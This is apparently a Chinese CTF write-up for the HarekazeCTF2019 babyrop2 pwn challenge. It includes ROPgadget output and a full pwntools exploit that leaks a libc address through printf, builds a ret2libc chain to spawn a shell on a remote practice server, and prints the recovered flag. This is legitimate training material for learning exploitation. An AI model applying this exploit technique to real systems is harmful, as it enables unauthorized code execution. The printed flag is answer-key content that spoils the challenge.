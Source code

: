 这题和[**[HarekazeCTF2019]baby_rop**](#[HarekazeCTF2019]baby_rop)的区别就在于，程序中没有现成的`system`和`/bin/sh`可以利用。我们需要利用`printf`函数来计算出`libc`的基地址，以便求出`system`和`/bin/sh`。在`64`位程序中，函数的前`6`个参数是通过寄存器传递的，分别是`rdi`, `rsi`, `rdx`, `rcx`, `r8`, `r9`(当参数小于`7`时)，所以我们需要用`ROPgadget`找到`pop_rdi`的地址。

```bash
┌──(tyd㉿kali-linux)-[~/ctf/pwn/buuctf]
└─$ ROPgadget --binary ./HarekazeCTF2019_babyrop2 --only "pop|ret"
Gadgets information
============================================================
0x000000000040072c : pop r12 ; pop r13 ; pp r14 ; pop r15 ; ret
0x000000000040072e : pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000400730 : pop r14 ; pop r15 ; ret
0x0000000000400732 : pop r15 ; ret
0x000000000040072b : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x000000000040072f : pop rbp ; pop r14 ; pop r15 ; ret
0x00000000004005a0 : pop rbp ; ret
0x0000000000400733 : pop rdi ; ret
0x0000000000400731 : pop rsi ; pop r15 ; ret
0x000000000040072d : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004004d1 : ret
0x0000000000400532 : ret 0x200a

Unique gadgets found: 12
```

编写`Python`代码求解，`cat /home/babyrop2/flag`得到`flag{ca63fb55-fa76-4655-994d-6bca048f1748}`。

```python
from pwn import *

context(arch='amd64', os='linux', log_level='debug')
io = remote('node4.buuoj.cn', 27378)
elf = ELF('./HarekazeCTF2019_babyrop2')
main = elf.sym['main']
printf_plt = elf.plt['printf']
read_got = elf.got['read']
rdi_ret = 0x400733 # pop rdi ; ret
offset = 0x20 + 0x8
payload = b'a'*offset + flat(rdi_ret, read_got, printf_plt, main)
io.sendlineafter(b"What's your name? ", payload)
read_addr = u64(io.recvuntil('\x7f')[-6:].ljust(8, b'\x00'))
log.info('read_address => %s', hex(read_addr))
libc = ELF('./libc.so.6')
libcbase = read_addr-libc.sym['read']
log.info('libc_address => %s', hex(libcbase))
system = libcbase + libc.sym['system']
log.info('system_address => %s', hex(system))
bin_sh = libcbase + libc.search(b'/bin/sh').__next__()
log.info('bin_sh_address => %s', hex(bin_sh))
payload = b'a'*offset + p64(rdi_ret) + p64(bin_sh) + p64(system)
io.sendlineafter(b"What's your name? ", payload)
io.interactive() # cat /home/babyrop2/flag
```
